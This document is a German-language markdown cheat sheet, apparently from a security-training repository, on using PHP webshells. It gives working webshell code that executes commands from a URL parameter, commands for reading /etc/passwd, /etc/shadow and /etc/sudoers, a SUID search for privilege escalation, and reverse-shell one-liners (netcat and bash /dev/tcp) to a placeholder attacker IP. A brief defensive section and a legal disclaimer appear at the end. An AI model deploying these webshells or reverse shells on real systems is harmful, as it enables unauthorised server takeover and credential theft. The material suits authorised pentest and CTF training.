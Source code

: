 # 🐚 PHP WebShell Usage Guide

---

## Inhaltsverzeichnis

- [Einleitung](#einleitung)
- [Beispiel einer einfachen PHP Webshell](#beispiel-einer-einfachen-php-webshell)
- [Typische Webshell-Kommandos](#typische-webshell-kommandos)
- [Privilege Escalation vorbereiten](#privilege-escalation-vorbereiten)
- [Daten exfiltrieren oder Reverse Shell starten](#daten-exfiltrieren-oder-reverse-shell-starten)
- [Schutzmaßnahmen gegen PHP-Webshells](#schutzmaßnahmen-gegen-php-webshells)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)

---

## Einleitung

Eine **PHP-Webshell** ist eine serverseitige Datei (z. B. `.php`), die einem Angreifer erlaubt, über den Browser Befehle auf dem Zielsystem auszuführen. Sie werden häufig in Penetration Tests, Capture-the-Flag (CTF)-Challenges oder Sicherheitsanalysen eingesetzt, um **Remote Code Execution (RCE)** nach einem erfolgreichen Upload-Angriff zu ermöglichen.

> ⚠️ **Wichtiger Hinweis:**  
> Dieses Wissen dient ausschließlich der **legalen Sicherheitsforschung**, für **CTFs**, **Testumgebungen** (wie HackTheBox/TryHackMe) oder autorisierte Penetration Tests. Jegliche nicht autorisierte Anwendung ist strafbar.

---

## Beispiel einer einfachen PHP Webshell

```php
<?php
  echo "<pre>";
  system($_GET['cmd']);
  echo "</pre>";
?>


⏳ Alternative mit exec()
php
<?php
  echo "<pre>";
  exec($_GET["cmd"], $out);
  echo htmlentities(join("\n", $out));
  echo "</pre>";
?>

Zugriff erfolgt z. B. über:
http://target/uploads/shell.php?cmd=whoami
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Typische Webshell-Kommandos
Sobald du Zugriff auf die Shell hast, kannst du mit folgenden Befehlen arbeiten:

### 🧠 Informationsgewinnung
```bash
uname -a                 # Kernel & Systeminfo
id                       # Aktueller Benutzer & Gruppen
pwd                      # Aktuelles Verzeichnis
whoami                   # Benutzername
```

### 🗂️ Verzeichnisstruktur erkunden
```bash
ls -la /home             # Benutzerverzeichnisse
ls -la /root             # Root-Verzeichnis (Zugriff nur bei root)
ls -la /var/www          # Webserver-Verzeichnis
```

### 📝 Systemdateien lesen

```bash
cat /etc/passwd
cat /etc/shadow
cat /etc/sudoers
```

### 🌐 Netzwerk-Check
```bash
netstat -anp             # Ports & Prozesse
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Privilege Escalation vorbereiten
Um weitere Rechte zu erlangen oder Root-Zugriff vorzubereiten:
```bash
find / -type f -perm -4000 2>/dev/null
which nc
which python
```
Mit einem gefundenen Tool kann eine Reverse Shell aufgebaut werden.

---

## Daten exfiltrieren oder Reverse Shell starten
Beispiel mit Netcat (wenn vorhanden):
```bash
nc [AttackerIP] [Port] -e /bin/bash
```

Oder über eine PHP-gestützte Reverse Shell:

```php
<?php
  exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'");
?>
```
> 🔁 Den Angriff auf Port 4444 lauschen: 
`nc -lvnp 4444`

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Schutzmaßnahmen gegen PHP-Webshells
- Für Blue Teams oder Sysadmins:
    - Datei-Uploads strikt validieren (MIME, Magic-Bytes, Dateinamen).
    - Webserver konfigurieren, um Ausführung in Upload-Verzeichnissen zu verhindern.
    - .php, .phtml, .inc etc. blockieren oder als reine Textdateien behandeln.
    - Monitoring-Tools wie OSSEC, Wazuh, LMD (Linux Malware Detect) verwenden.

---

## Siehe auch:

- [php_web_shell_bypass_tricks.md](/03-web-security/webshells/php_web_shell_bypass_tricks.md)
- [post_exploitation_tools.md](/04-os-enumeration/post_exploitation_tools.md)
- [cmd_examples_from_shell.md](/03-web-security/webshells/cmd_examples_from_shell.md)
- [https://github.com/bitraybytes/cybersecurity/03-web-security/webshells/php_rce_cheat_sheet.md](/03-web-security/webshells/php_rce_cheat_sheet.md)

---

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
